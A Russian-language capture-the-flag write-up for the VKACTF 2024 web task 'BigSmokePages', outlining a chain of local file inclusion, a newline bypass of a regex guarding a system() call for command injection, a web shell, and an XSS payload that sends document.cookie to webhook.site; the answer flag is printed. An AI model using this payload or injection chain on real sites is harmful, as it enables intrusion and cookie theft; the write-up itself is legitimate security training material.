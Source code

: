 # Breakfast

|   Cобытие   | Название | Категория | Сложность |
| :---------: | :------: | :-------: | :-------: |
| VKACTF 2024 |  BigSmokePages |  Web  |  Легко  |

## Описание

>Авторы: EGM x Po4est
>
>BigSmoke записывает все свои задачи в блокнот, а потом отправляет их кому-то для проверки. Но зачем???

# Решение

1. На ручке view_file.php, находим lfi в параметре file.
2. Находим сорцы нашего сервиса. Видим, что в create_file.php используется ```system("touch ./files/$filename")``` с предварительной проверкой 
```
if (preg_match('/^[a-zA-Z0-9_]{0,30}+$/m', $filename) !== 1) {
        header("Location: error.php");
        exit;
}
```
3. Видим CRLF инъекцию в регулярное выражение и обходим его для выполнения os injection.
4. Заливаем веб шелл и с помощью него в файл ```evil.html``` записываем ```XSS``` нагрузку
```<img src onerror="window.location.replace('https://webhook.site/<webhook>?a='+document.cookie)">``` 
для получения ```cookie```. 
5. Отправляем боту ссылку ```http://bigsmokepages.vkactf.ru/evil.html``` и ловим на веб хук флаг, находящийся у него в куках.



### Флаг


```
vka{B1G_Smoke_bIg_boSS}
```
